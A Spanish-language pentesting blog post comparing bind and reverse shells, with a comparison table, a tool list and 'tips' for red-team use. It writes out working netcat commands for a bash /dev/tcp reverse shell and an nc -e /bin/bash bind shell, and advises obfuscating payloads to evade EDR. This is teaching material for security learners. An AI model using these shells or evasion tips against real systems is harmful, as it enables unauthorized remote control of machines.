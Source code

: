 ```yaml
---
layout:post
title: "Bind vs Reverse Shells: Duelos en la terminal del inframundo 🕳️🐚"
author: "l1ttl3bugc4t"
date: "2025-06-16"
tags: [Reverse Shell, Bind Shell, Pentesting, Red Team, Ciberseguridad, Shells]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


Cuando te metes en el mundo del pentesting y el hacking ético, hay dos técnicas clásicas que se convierten en tus aliadas para obtener acceso remoto: **Bind Shells** y **Reverse Shells**.  
Ambas te permiten controlar una máquina comprometida, pero lo hacen de maneras distintas… y estratégicamente geniales 😼⚔️

---

## 🧪 ¿Qué es una Shell?

Una **shell** es una interfaz que te permite interactuar con el sistema operativo a través de comandos.  
Una **reverse shell** o una **bind shell** simplemente llevan esta interacción a través de una conexión de red 🌐

---

## 🔁 Reverse Shell

En una **reverse shell**, el objetivo (la víctima) se conecta **hacia ti**, el atacante.

🧠 **¿Cómo funciona?**
1. El atacante levanta un listener (esperando una conexión)
2. La víctima ejecuta un payload que **conecta de regreso** al atacante
3. ¡Boom! Shell remota 🎯

```bash
# Atacante
nc -lvnp 4444

# Víctima
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

📦 **Ventajas**
- Funciona bien con firewalls (salida de red casi siempre permitida)
- Más sigilosa

🚫 **Desventajas**
- El atacante necesita una IP pública o port forwarding
- Puede ser detectada si el EDR o antivirus monitorea conexiones salientes

---

## 🔗 Bind Shell

En una **bind shell**, el objetivo abre un puerto y **escucha** conexiones.

🧠 **¿Cómo funciona?**
1. La víctima ejecuta un payload que abre un puerto
2. El atacante se conecta a ese puerto

```bash
# Víctima
nc -lvnp 4444 -e /bin/bash

# Atacante
nc 10.0.0.2 4444
```

📦 **Ventajas**
- El atacante no necesita abrir puertos
- Más directa en entornos sin NAT

🚫 **Desventajas**
- Firewalls pueden bloquear conexiones entrantes
- Menos sigilosa

---

## 🧙‍♀️ ¿Cuál elegir?

| Situación | Mejor opción |
|----------|---------------|
| Hay NAT o firewall | Reverse Shell ✅ |
| Tienes control sobre el firewall o red | Bind Shell ✅ |
| Quieres evitar alertas de IDS | Reverse Shell con ofuscación ✅ |
| Objetivo es una red interna con mucho filtrado | Depende del contexto... ¡ambas podrían servir con tunelado! 😼 |

---

## 🧰 Herramientas comunes

- `netcat` (clásico pero detectable)
- `socat` (más flexible y cifrado)
- `msfvenom + Metasploit`
- `nishang`, `powercat`, `pwncat`, `revshells.com`

---

## 🧨 Tips galácticos

- Ofusca tus payloads para evadir EDRs
- Usa TLS si puedes (con `socat` por ejemplo)
- Recuerda que puedes tunelar con SSH, VPN, o herramientas como `chisel`
- ¡Guarda siempre tu IP y puerto en algún lugar mágico! 🪄

---

## ✨ Conclusión

Ambas técnicas son esenciales en tu arsenal Red Team.  
Conocer cuándo usar una u otra puede marcar la diferencia entre un acceso exitoso... y un logeo frustrado.

> _"Una shell no te hace hacker... pero te pone en camino."_ — **l1ttl3bugc4t**

---

